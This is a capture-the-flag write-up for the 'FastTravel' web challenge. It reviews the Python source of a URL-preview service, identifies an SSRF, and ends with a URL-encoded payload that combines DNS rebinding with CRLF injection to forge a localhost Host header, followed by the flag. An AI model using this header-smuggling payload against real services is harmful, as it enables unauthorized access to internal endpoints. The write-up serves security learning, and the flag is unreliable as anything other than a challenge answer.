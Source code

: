 ```yaml
---
tags: 
references:
---
```

# FastTravel
Solves: 
Tags: #ssrf #dns-rebidining #crlf 
## Description
> The paths through the cyber world can be quite long. This is why we have set up a >FastTravel< network to shorten them. To avoid dangers we let you peek through them before you enter.
## Overview
It is an url shortener. Fetches a given url and returns a preview of it.
The server is custom, built with asyncio. Also the parser function are "hand made"
## Road to flag
The flag is in the admin panel, that is accessible only if the request's host header is `localhost`
```python
@server.get("/admin")
async def admin(request: Request) -> Response:
    if not privileged_origin_access(request.headers.get('Host', '')):
        return Response.forbidden()
    return Response.ok(f"Welcome to the secret admin panel! Flag: {FLAG}")
```
## Code review

- SSRF in `/shorten`
```python
@server.post("/shorten")
async def shorten(request: Request) -> Response:
    if "source" not in request.form_args:
        return Response.bad_request()

    url = request.form_args["source"]
    scheme, hostname, port, path = urlparse(url)
    if privileged_origin_access(hostname) or any(hostname.startswith(e) for e in PRIVILEGED_ORIGINS) or any(hostname.endswith(e) for e in PRIVILEGED_ORIGINS):  # just to be sure
        return Response.forbidden()

    global last_shorten
    if SHORTEN_RATE_LIMIT and (datetime.now() - last_shorten) < SHORTEN_RATE_LIMIT:
        print(f"[{datetime.now()}] WARN    Rate limiting shorten")
        to_sleep = (last_shorten + SHORTEN_RATE_LIMIT - datetime.now())
        last_shorten = datetime.now() + to_sleep
        await asyncio.sleep(to_sleep.total_seconds())
    else:
        last_shorten = datetime.now()

    short = "".join(random.choice(string.ascii_letters + string.digits) for _ in range(6))
    try:
        preview = await Requester().get(url)
        if len(preview) > 2**20:
            print(f"[{datetime.now()}] WARN    preview is too large, truncating", len(preview), "to", 2**20)
            preview = preview[:2**16]
    except ConnectionRefusedError:
        return Response.bad_request("Invalid URL")
    shortens[short] = (url, preview)

    return Response.ok(f"{preview}")
```

But the hostname has not to be `localhost` or `localhost:500`, and the hostname has not to start or end with these values.
```python
scheme, hostname, port, path = urlparse(url)
    if privileged_origin_access(hostname) or any(hostname.startswith(e) for e in PRIVILEGED_ORIGINS) or any(hostname.endswith(e) for e in PRIVILEGED_ORIGINS):  # just to be sure
        return Response.forbidden()
```

- `Client.py` - `Requester` sends a request to the given url
```python
class Requester:
    async def request(self, method: Method, url: str, body: Optional[bytes] = None, verbose: bool = False) -> bytes:
        scheme, hostname, port, path = urlparse(url)
        if scheme not in ("http", "https"):
            raise ValueError("Scheme not supported")

        port = port or (443 if scheme == "https" else 80)
        path = path if path else "/"

        loop = asyncio.get_event_loop()
        try:
            addrs = await loop.getaddrinfo(hostname, port, family=socket.AF_INET, type=socket.SOCK_STREAM) # localtest.me
            if not addrs:
                raise ValueError("No address found")
        except socket.gaierror:
            raise ValueError("Address resolution failed")

        family, socktype, proto, canonname, sockaddr = addrs[0]

        try:
            if scheme == "https":
                reader, writer = await asyncio.open_connection(sockaddr[0], sockaddr[1], server_hostname=hostname, ssl=True)
            else:
                reader, writer = await asyncio.open_connection(sockaddr[0], sockaddr[1])
        except ConnectionRefusedError:
            raise ValueError("Connection refused")

        try:
            req = (
                f"{method} {path} HTTP/1.1\r\n"
                f"Host: {hostname}\r\n"
                f"User-Agent: fasttravel/0.1\r\n"
                f"Connection: close\r\n\r\n"
            ).encode("utf-8")
            if body:
                req += body

            writer.write(req)
            await writer.drain()

            response = b""
            while True:
                chunk = await reader.read(4096)
                if not chunk:
                    break
                response += chunk

            if verbose:
                return response
        except:
            raise ValueError("Request failed")

        return self.parse(response)

    def parse(self, response: bytes) -> bytes:
        return response.split(b"\r\n\r\n", 1)[1]  # should be good enough for our usecase

    async def get(self, url: str) -> bytes:
        return await self.request("GET", url)
```
## Exploitation

DNS rebinding + crlf injection `http%3a%2f%2flocaltest.me%3a5001%2fadmin%20HTTP%2f1.1%0d%0aHost%3a%20localhost%0d%0aConnection%3a%20close%0d%0a%0d%0a`

`dach2025{seems_like_you_were_able_to_open_a_forbidden_portal_gd40g18qu16j812a}`